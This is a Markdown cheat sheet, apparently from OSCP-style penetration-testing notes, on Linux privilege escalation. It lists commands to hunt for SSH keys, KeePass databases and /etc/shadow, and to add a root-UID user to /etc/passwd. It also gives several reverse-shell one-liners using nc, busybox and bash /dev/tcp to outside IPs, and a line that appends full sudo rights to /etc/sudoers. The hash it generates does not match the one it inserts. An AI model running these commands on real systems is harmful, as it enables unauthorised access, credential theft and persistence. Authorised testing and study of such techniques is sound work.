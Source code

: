 # Methodology
- [ ] `sudo -l` (if you have password or are in /etc/sudoers)
- [ ] `tree` /home folders
- [ ] Check `/opt` folder
- [ ] If `adm` group, check `/var/logs` auth.log, syslog, messages
- [ ] /etc/passwd, /etc/shadow, /etc/sudoers (`ls -l` and cat)
- [ ] Enumerate for SSH keys (id_rsa, id_ed25519, id_ecdsa)
	- [ ] `find / -type f \( -iname "id_rsa" -o -iname "id_ecdsa" \) 2>/dev/null`
- [ ] Enumerate or sensitive files
	- [ ] XML configs: `find /home -type f -iname "*.xml" 2>/dev/null`
	- [ ] KeePass: `find / -type f -iname "*.kdbx" 2>/dev/null`
- [ ] Enumerate WWW, Spool, FTP
	- [ ] Check for databases in `/www/`
- [ ] Enumerate cronjobs
	- [ ] `crontab -l`, and `cat /etc/crontab`
- [ ] Enumerate binaries
- [ ] Enumerate groups, ids
- [ ] Enumerate running processes (pspy)
- [ ] Enumerate SIDs
- [ ] Enumerate netstat and local services
	- [ ] In addition to those only on localhost, make sure to crosscheck ports against those that showed up in nmap scan in case of firewall block
- [ ] Enumerate kernel version (`uname -a`, `cat /etc/os-release`, `cat /prov/version`)

# Generating hash for /etc/passwd
`openssl passwd w00t` (best to always run this on victim machine AND on every revert)
Copy the entire thing: `$1$cebTYFNH$8rlW60.TMWsiecw6UqxoR1`
`echo "root2:Fdzt.eqJQ4s0g:0:0:root:/root:/bin/bash"`
Then, `su root2`
> The output of the OpenSSL `passwd` command may vary depending on the system executing it. On older systems, it may default to the DES algorithm, while on some newer systems it could output the password in MD5 format.

`/etc/passwd` column legend: 
`username:password:UID:GID:comment:home_directory:shell`
# Print Flags
```bash
ifconfig && hostname && whoami && cat local.txt
```
```bash
ifconfig && hostname && whoami && cat proof.txt
```

# Basic Commands
Reverse Shells:
```bash
busybox nc 10.10.10.10 1234 -e sh
bash -c 'bash -i >& /dev/tcp/192.168.86.99/443 0>&1'
bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
# Pentest Monkey special
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f

# Add user
adduser NameOfUser
# Add user to group
adduser NameOfUser sudo
# Workaround for editing sudoers file without interactive shell
echo "username ALL=(ALL) ALL" >> /etc/sudoers
# Check which users are in the sudo group
```